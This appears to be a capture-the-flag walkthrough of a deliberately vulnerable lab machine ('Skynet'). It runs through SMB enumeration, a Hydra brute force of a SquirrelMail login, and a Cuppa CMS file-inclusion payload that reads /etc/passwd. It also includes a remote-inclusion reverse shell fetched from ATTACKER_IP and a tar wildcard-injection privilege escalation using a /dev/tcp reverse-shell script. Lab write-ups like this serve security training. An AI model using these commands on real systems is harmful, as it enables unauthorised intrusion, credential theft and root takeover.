


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|    Easy    |  |  10.10.86.116 |  |

---

### [ What is Miles password for his emails? ]

Let's start off by enumerating the services that are running on our target machine. We can do this with `nmap`.

```
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.86.116
```

Results:


As we can see, there are 6 ports open on our target: **22 (SSH)**, **80 (HTTP)**, **110 (POP3)**, **139 & 445 (SMB)** and **143 (IMAP)**

Let's start by first enumerating the Samba service. We can do so by using a nifty tool called `enum4linux`:

```
enum4linux 10.10.86.116
```

Results:


From the results, we find out two important pieces of information. 

Firstly, there is the personal share called **milesdyson**. This implies that there could a user called 'milesdyson' as well. Let's take note of this for now. 

Next, there is also an **anonymous** share. By the name alone, I'm going to guess that we will be able to access this share without needing to supply a password.

Let's try acccessing the 'anonymous' share! To do so, we can use `smbclient`:

```
smbclient //10.10.86.116/anonymous -U anonymous
```


Sure enough, we can log in without a password.

In the share, there is a text file called **attention.txt**, as well as a directory called **logs** with three text files inside: **log1.txt**, **log2.txt**, **log3.txt**.

I downloaded all of these files to my local machine using the `get` command. Now let's take a look at these files:

**Attention.txt**


There is a message by Miles Dyson himself. The emphasis on passwords makes me believe that I will have to try a dictionary or brute-force attack later on.

**log1.txt**


**log1.txt** looks like a wordlist of some sorts! Maybe we'll have to use this file when trying to crack credentials later on? 

log2.txt and log3.txt were empty files and did not contain anything useful.

I tried using `hydra` with the username: **milesdyson** and **log1.txt** as the password wordlist with SSH and Samba. However, it failed to find any passwords. Hitting this dead end, I decided to move on first.

Let's now visit the HTTP website:


There is a search engine called 'Skynet Search'.

Before carrying on with our manual enumeration, let's run a `gobuster` scan to enumerate any hidden directories on this web server. We make sure to check for common extensions such as .php and .txt during our enumeration. 

```
gobuster dir -u http://10.10.86.116/ -x php,html,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

*(Note that `-t 100` helps to speed up the scan by increasing the number of threads)*

While the scan is chugging along, we can do some happy path enumeration. 

Searching for anything in the search bar simply redirects us back to the homepage. The same thing happens when we press the 'I'm Feeling Lucky' button. 

The source code of the page also revealed nothing of interest. 

Seems like there is nothing much going on this page. Let's take a look at our Gobuster scan!


There are a few directories of interest:

* /admin
* /config
* /ai

Unfortunately, we are unable to access any of these directories as we do not have the appropriate permissions:


---

*From here, I basically went down a rabbit hole of trying to use Hydra on the various email services that were enumerated from our nmap scan: POP3 and IMAP. This is because the first prompt in the room asked to find the password of Miles's email account. Hence, I was trying to access these email services directly through the command line, which was not working. In the end, I realized that while I had thought that my Gobuster scan was already completed, it was still finding hidden directories, one of which was **/squirrelmail**.* 

*Hence, a lesson learnt is to be patient and understand that sometimes these scans can take a long time to bear fruit, especially with large wordlists.*

---



After waiting for some more time, Gobuster managed to enumerate a **/squirrelmail** directory! 

Visiting /squirrelmail brings us to this login page:


Nice! Let's now try to use `hydra` to run a dictionary attack on this login form. 

Before we do so, we first need to obtain some key pieces of information which we need to feed into Hydra. Let's input some random credentials and try logging in. We can use Firefox's network inspector to look at the login request (CTRL-SHIFT-I > Network).

**Login request:**


Here, we can see that when a user logs into SquirrelMail, a **POST** request is made. Hence, we will have to use the 'http-post-form' option for Hydra later on. We also see that the request is directed to '/squirrelmail/src/redirect.php'.



From the form data of the request, we can also see that there are four parameters that are sent: 'login_username', 'secretkey', 'js_autodetect_results' and 'just_logged_in'.


Finally, we have the error message that is returned to us when we try to login with incorrect credentials: "Unknown user or password incorrect." This is important as Hydra will check for this message in the response to determine whether the password attempt was successful or not.

We now have all the pieces of information in order to craft our Hydra command. We will be using the username '**milesdyson**' as that seems to be the most likely username as of now.

```
hydra -l milesdyson -P log1.txt 10.10.86.116 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect" -V
```


After awhile, Hydra manages to crack Mile's password:

> cyborg007haloterminator

---

### [ What is the hidden directory? ]

With Mile's squirrelmail credentials, let's go ahead and log into his mailbox.

His mailbox contains three emails, with two of them containing information that we don't really need. However, the first email titled **'Samba Password reset'** actually contains the password to Mile's personal Samba share!


With this password, let's access his share and see what we can find. We can use `smbclient` once again to do so, this time specifying to log in as the user 'milesdyson':

```
smbclient //10.10.181.238/milesdyson -U milesdyson
```


And we're in!

There are a bunch of pdf files which contains complex information about artificial intelligence and neural networks. Let's skip those and go straight to the 'notes' directory:


Once again, more files that look very academic in nature. If we look carefully, we can actually find an **'important.txt'** file. Let's download this file to our local machine using the `get` command.

**important.txt:**


important.txt reveals a hidden directory on the webserver: **/45kra24zxs28v3yd**

---

### [ What is the vulnerability called when you can include a remote file for malicious purposes? ]

Vulnerability: **Remote File Inclusion**

---

### [ What is the user flag? ]

Let's visit this hidden directory:


We have Miles Dyson's personal page.

Let's run a `gobuster` scan on this directory:

```
gobuster dir -u http://10.10.181.238/45kra24zxs28v3yd/ -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

**Results of scan:**


Gobuster manages to find an **/administrator** directory. Let's take a look:


Looks like a login page to a Cuppa CMS service. 

I first tried  Mile's credentials for his email and his samba to login. Unfortunately, those did not work. 

Let's now use `searchsploit` to find exploits that we can use for Cuppa CMS:

``` 
searchsploit cuppa
```


Turns out there is an exploit for Cuppa CMS, one that uses remote file inclusion. This is probably the exploit we have to use, considering that remote file inclusion was mentioned earlier in the room. We can download this exploit using the `-m` tag:

``` 
searchsploit -m php/webapps/25971.txt
```

**Snippet of exploit:**


In essence, this exploit targets the 'alertConfigField.php' file within the Cuppa CMS service. More specifically, it targets the 'urlConfig' parameter. Through this parameter, we can input a path that traverses directories to access other files on the machine, such as /etc/passwd. This is known as a local file inclusion ((LFI)) attack. However, we can also input a path to a file on a web server that we, the attacker, are controlling. This will cause our target machine to download and execute that file, allowing us to do things such as open up a reverse shell! This is known as a remote file inclusion (RFI) attack. 

We will be using this exploit to carry out an RFI attack.

Before we do that, let's just try to read the /etc/passwd file on our target machine, so as to verify that the inclusion attack even work.

**Payload:**

```
 http://10.10.181.238/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

**Results:**


Great, Looks like the exploit works! Now, we will move on to carrying out the RFI attack.

We'll be using the PHP reverse shell created by [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

First, we host a simple HTTP server using Python:

```
python3 -m http.server
```

Next, we set up a netcat listener so that it can catch the reverse shell when it is opened. 

With the server up and running, we just have to navigate to the following URL:

```
http://10.10.181.238/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://ATTACKER_IP:8000/php-reverse-shell.php`

```

Once we visit this URL, we can see that the reverse shell has been successfully opened:


We're in! :smiling_imp:

There is a user called 'milesdyson' on the target machine. The **user.txt** file can be located in his home directory:


---

### [ What is the root flag? ]

Let's now find a way to escalate our privileges.

There is an interesting directory in milesdyson's home directory called **backups**. Looking inside, there is a **backup.sh** shell script and a .tgz file called **backup.tgz**:


What's interesting to note is that both of these files are owned by root. 

**backup.sh:**


What backup.sh does is to first traverse to the /var/www/html directory, before archiving all of the files inside using the `tar` command. What's especially interesting to me is the use of the wildcard operator (*).

Looking at [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we see that we can actually exploit `tar` to spawn a privileged shell: 


In our case, we need to add in the following arguments to the `tar` command to do so:

* --checkpoint=1
* --checkpoint-action=exec=/bin/sh

The wildcard operator (*) actually allows us to add those arguments even though we do not have direct write permissions to the backup.sh file. This type of attack is called a [wildcard injection attack](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/).

---

**Explanation of Wildcard Injection Attack**

Assume we have a directory with the following files: a.txt, b.txt, c.txt.

If we do a `rm *`, we will delete all of the files within the directory. However, what is actually happening is that the `*` is being expanded to list all of the files. Hence, the actual command being run is `rm a.txt b.txt c.txt`. 

Hence, if we have a file called -rf, the actual command being run will be `rm -rf a.txt b.txt c.txt`. The -rf filename will actually end up being interpreted as a command-line argument! 

With the correct program, this attack can be used to escalate privileges.

---

To execute this attack, we need to create two files: '**--checkpoint=1**' and '**--checkpoint-action=exec=bash\ shell.sh**' in the /var/www/html directory. 

Before that, let's first create a bash script that spawns a shell. This bash script will be called shell.sh and will be also be in /var/www/html.

```
echo $'#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > shell.sh
```

We use `echo` to write the script as `vim` and `nano` were unfortunately not cooperating with the terminal.

With the shell script created, let's go ahead and create the two files that will act as command-line arguments to the tar program:

```
touch -- --checkpoint=1
touch -- --checkpoint-action=exec=bash\ shell.sh
```

The action to execute at the checkpoint would be to run shell.sh using bash. The `\` symbol is so that we can properly escape the space between 'bash' and 'shell.sh'.

Also, as we cannot directly create files with `-` characters in the name, we have to input a `--` before `--checkpoint`. In bash, `--`  means the end of options. Thus, our subsequent `-` characters will not be parsed as an option and can be used as part of the file name.

**How /var/www/html looks like after we're done:**


With everything set up, we just have to figure out how to run backup.sh as root.

My initial guess was that backup.sh was being run as a cronjob by root, which makes sense as it is a backup program after all.

To verify this, we can use [pspy](https://github.com/DominicBreuker/pspy), a nifty tool that allows us to snoop on processes running on the machine without having root permissions. 

After downloading the pspy32 executable onto the machine and running it, we get the following results:


We can see that the backup.sh script is automatically run every minute. Thus, this proves that it is indeed running as a cronjob. The process is also run with UID=0, which belongs to root!

Hence, we don't really have to do anything except wait. After one minute had passed, the backup.sh script was run by root, which then opened a reverse shell and allowed us to gain access into the machine with root privileges.


With that, we could obtain **root.txt** located in /root.

